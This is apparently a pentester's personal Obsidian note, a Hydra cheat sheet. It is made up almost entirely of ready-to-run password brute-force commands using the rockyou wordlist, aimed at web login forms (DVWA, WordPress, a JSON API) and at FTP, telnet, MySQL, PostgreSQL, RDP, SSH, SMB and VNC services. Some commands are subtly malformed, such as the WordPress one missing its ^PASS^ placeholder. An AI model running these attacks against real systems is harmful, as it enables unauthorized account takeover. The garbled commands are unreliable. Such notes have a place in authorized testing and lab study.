 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Hydra URL Forms

![[Pasted image 20220912111730.png]]
```bash - kali
hydra $TARGET -s 80 http-get / -l $USER -P /usr/share/wordlists/rockyou.txt -vV -f -t 3
```

![[Pasted image 20220418151122.png | 750]]

The above form, part of the <u>/form/login.html page</u>, indicates that the POST request is handled by <u>/form/frontpage.php</u>, which is the URL we will feed to Hydra.  Since we are attacking the admin user login with a wordlist, the combined argument to Hydra becomes:  ==(IS IT "http-form-post" OR "http-post-form")?==

```bash - kali
hydra $TARGET -s 80 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f -t 3
```

If you get multiple results:
![[Pasted image 20220927182529.png]]

Try adding a cookie, like:
```bash - kali
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 80 targets.local http-get-form "/dvwa/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=$PHPSESSID"
```

OTHER EXAMPLES:
```bash - kali
hydra -l admin -P /usr/share/wordlists/rockyou.txt $TARGET -s 8081 http-post-form "/login.php:user=admin&pass=^PASS^:Invalid Password!" -t 3
```

```bash - kali
hydra -l none -P rockyou.txt $TARGET http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password" -t 64 -V
```

```bash - kali
hydra -L users -p passwords -t 10 $TARGET http-get-form "/ajax.php:fun=login&username=^USER^&password=^PASS^:invalid user" -f -t 3
```

```bash - kali
hydra -l $USER -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt $TARGET -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' -f -t 3
```

```bash - kali
hydra -L users -P /usr/share/wordlists/rockyou.txt -s 80 $TARGET http-post-form "/login:{'username'\:'^USER^','password'\:'^PASS^'}:failed" -f -t 3
```

==Lower the number of tasks in parallel, if having issues (Default is 16).==
```bash - kali
-t 3
```

### Hydra against JSON:
```bash - kali
hydra -l $USER -P /usr/share/wordlists/rockyou.txt $TARGET -s 3000 http-post-form "/api/session/authenticate:{\"username\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:Authenticatio n failed:H=Content-Type\: application/json" -t 64
```

#### Hydra against FTP
```bash - kali
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET ftp -vvv -f -s 21 -t 3
```

#### Hydra against telnet
```bash - kali
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET telnet -vvv -f -s 23 -t 3
```

#### Hydra against MySQL
```bash - kali
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET mysql -vvv -f -s 3306 -t 3
```

#### Hydra against Postgresql
```bash - kali
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET postgres -vvv -f -s 5437 -t 3
```

#### Hydra against RDP
```bash - kali
hydra -l blake -P /usr/share/wordlists/rockyou.txt $TARGET rdp -vvv -f -s 3389 -t 3
```

#### Hydra against SSH
```bash - kali
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET ssh -vvv -f -s 22 -t 3
```

#### Hydra against SMB
```bash - kali
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET smb -vvv -f -s 445 -t 3
```

#### Hydra against VNC
```bash - kali
hydra -P /usr/share/wordlists/rockyou.txt $TARGET vnc -vvv -f -s 5900 -t 3
```


#### Hydra against WordPress
```bash
hydra -vV -L users -P /usr/share/wordlists/rockyou.txt $TARGET http-post-form '/wordpress/wp-login.php:log=^USER^&pwd&wp-submit=Log+In:F=is incorrect' -f -t 3
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
